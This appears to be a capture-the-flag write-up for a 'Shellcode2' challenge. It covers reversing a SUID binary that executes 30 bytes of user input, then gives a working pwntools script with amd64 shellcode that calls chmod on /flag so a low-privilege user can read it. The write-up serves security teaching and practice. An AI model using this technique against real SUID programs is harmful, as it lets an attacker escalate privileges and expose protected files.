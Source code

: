 # Shellcode2

Author: `misi`

---
In this challenge we are given a shell. The flag file is located at /flag, and the challenge binary is in /challenge.  
By running ls -la with /flag and /challenge/shellcode as arguments, we can see the privelieges of each file.  

<img width="559" height="146" alt="3" src="https://github.com/user-attachments/assets/d36eaa9a-17c0-4a65-972c-232c6013865d" />

Both /flag and /challenge/shellcode is owned by an 'owner' user.    
Our current user (`ctf`) does not have permission to open the flag.  
The binary /challenge/shellcode has the SUID bit set, which means it runs with the priveliges of its owner (`owner`). This allows us to potentially use it to open /flag.

### Reversing
Start by doing a checksec on the given binary to see what security features is enabled.

<img width="613" height="139" alt="1" src="https://github.com/user-attachments/assets/f13dfd82-4c91-43fa-81cb-cb07acaf3585" />

- PIE is enabled
- There is no stack canary found
- The binary is not stripped
- NX enabled

I use ghidra to decompile the given binary  
main() is the only function we need to reverse.  

<img width="751" height="783" alt="2" src="https://github.com/user-attachments/assets/4047d89e-60b3-4dbb-8abf-90a70cec4de0" />

main() will print out some information, do a mmap, making some memory region executable, and then read in 0x1e (30 in decimal) bytes into the memory region. Finally it will execute the input you sent in, before it returns.


### Exploitation
Since the shellcode can at most be 30 bytes long, it will not be possible to open and read the flag with shellcode.  
There are possibly multiple ways to solve this challenge, in this writeup I will change the permissions on the /flag file, to be able to read it as the `ctf` user.  
To do this you can use the chmod syscall, as it is only one syscall, we will be able to use less bytes for the shellcode.  
After running the shellcode, you can do `cat /flag` to print the flag to the terminal.  

Here is the final solve script:  
```py
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

p = process("/challenge/shellcode")
asm_code = asm("""
               xor rax, rax
               add al, 90
               lea rdi, [rip+flag]
               mov si, 0755
               syscall
               flag:
               .string "/flag"
               """)

p.recvuntil("shellcode: ")
p.sendline(asm_code)
p.interactive()
```
